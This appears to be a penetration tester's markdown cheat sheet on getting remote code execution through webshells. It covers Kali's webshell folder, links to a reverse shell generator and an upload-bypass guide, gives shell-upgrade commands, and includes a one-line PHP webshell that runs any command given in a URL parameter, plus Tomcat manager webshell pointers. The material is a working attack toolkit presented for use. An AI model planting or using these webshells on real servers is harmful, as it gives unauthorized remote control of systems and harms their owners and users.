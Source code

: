 ## Intro
Who doesn't like the RCE on demand?

List webshells available on Kali
```
tree /usr/share/webshells/
```

## Revshells
Great reverse shell generator

https://www.revshells.com/

**PHP PentestMonkey** works great!

## File Upload bypass
If website blocks upload of your webshell, try this

https://book.hacktricks.xyz/pentesting-web/file-upload

## Upgrade shell
When shell works, but does not support all features
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
<CTRL+Z>
stty -echo raw
fg
stty rows 41 columns 166
```

## Apache
Basic PHP webshell
```
# Take input from the URL paramter. e.g http://<IP>/shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>
```
### Apache Tomcat
Requires admin access:
```
http://127.0.0.1:18080/manager/html
```
https://github.com/p0dalirius/Tomcat-webshell-application
